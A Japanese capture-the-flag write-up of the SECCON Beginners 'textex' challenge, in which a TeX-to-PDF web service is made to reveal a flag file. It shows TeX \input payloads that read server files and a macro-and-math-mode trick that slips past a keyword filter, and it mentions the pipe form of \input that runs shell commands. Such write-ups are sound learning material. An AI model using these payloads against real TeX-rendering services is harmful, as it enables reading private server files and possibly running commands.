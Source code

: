 # [WEB] textex 92pts
texをpdfにするサービスを作りました。
texで攻撃することはできますか？

https://textex.quals.beginners.seccon.jp
# Solution
問題文の通り、texをpdfにするサイト\
![textex1](images/textex1.png)\
与えられたソースコードの Dockerfile より flag が書かれているであろうファイルが `/var/www/` 以下にあることがわかる。texからpdfに変換する際にflagファイルを表示させる方法を考える。texの知識が0だったので、`TeX 外部ファイル 表示` とかで検索してみると、それに関するブログを見つけた。
> TeXのコマンドには、\input という別のTeXファイルを読み込むコマンドがありますが、 \input の引数が |"command"（先頭にパイプが1つとダブルクオートで囲われた文字列）のようになっていると、指定したコマンド command が実行されます。

これでいける！と思って問題のサイトに `\input{"requirements.txt"}` を入力して、pdfに変換したら、`requirements.txt` の内容が表示された。
![textex2](images/textex2.png)\
同様の方法で`\input{"flag"}`を試すと、エラー表示がされて表示されない。ここで、長時間悩み諦めた。\
実は、入力文字列にflagが含まれている場合はエラー表示が起きるように設定されていた。（問題の初めに気づいてはいたが、inputの存在を知ってから完全に忘れてた悲しみ）
### app.py
```Python
    # .tex -> .pdf
    try:
        # No flag !!!!
        if "flag" in tex_code.lower():
            tex_code = ""
        # Write tex code to file.
        with open(f"tex_box/{filename}/{filename}.tex", mode="w") as f:
            f.write(tex_code)
        # Create pdf from tex.
        subprocess.run(["pdflatex", "-output-directory", f"tex_box/{filename}", f"tex_box/{filename}/{filename}.tex"], timeout=0.5)
    except:
        pass
```
flagを別の方法で表す必要があるので、マクロ定義を用いてみる。
```latex
\documentclass{article}
\def\lag{lag}
\begin{document}

\input{f\lag}

\end{document}
```
しかし、これも結果はエラー。\
Texについて調べていくと、`_` は特殊文字として扱われるため、そのまま入力することはできないらしい。数式モードでは使用でき、この場合は下付き文字になる。
```latex
\documentclass{article}
\def\lag{lag}
\begin{document}

$\input{f\lag}$

\end{document}
```
すると、flagの内容っぽいのが表示された。\
![textex3](images/textex3.png)\
下付き文字をもとに戻すと、`ctf4b{15_73x_pr0n0unc3d_ch0u?}`

難しすぎた


# References
- https://tex2e.github.io/blog/latex/input-external-commands
- https://munibus.hatenablog.com/entry/2018/10/29/070852
